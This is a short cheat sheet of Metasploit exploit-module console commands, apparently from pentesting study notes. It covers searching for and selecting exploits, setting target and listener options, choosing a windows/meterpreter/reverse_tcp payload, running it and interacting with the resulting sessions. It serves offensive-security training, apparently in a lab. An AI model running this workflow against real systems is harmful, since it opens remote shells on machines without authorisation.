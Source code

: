 ## Exploit Module Commands

Exploits module
```ruby
# Search for specific service found for exploits 
search TARGETSERVICEYOUFOUND
# Select an exploit
use DIGIT 
# Get information about currently selected module 
# Will contain informqation on side affectsm IoCs
# module reliability = if exploit can be run multiple times
# repeatable-session = only work once
info  
# Get a exploit module's description
description
# Show options required 
show options
# You do not need the show command 
options

# Show advanced options (do not skip!)
show advanced
# Also keyword show is not required - `show ...` would be good for learning or script legibility 
advanced
# Shows list of potential OS version targets!
show targets 

# Set or unset a option
set RHOSTS 10.10.10.10
unset RHOSTS
# Set based on interface
set LHOST tun0 
# Payloads - these are set by defaults - change!
show payloads
set payload windows/meterpreter/reverse_tcp
# Dry run the exploit (check but do not exploit)
check

# Run, exploit and background
run
exploit 
# to background...
exploit -j # or [CRTL + Z] if you forgot 

# View current sessions
sessions
# Interact with a session number
sessions -i INT
# Kill a session by ID
sessions -k INT
```
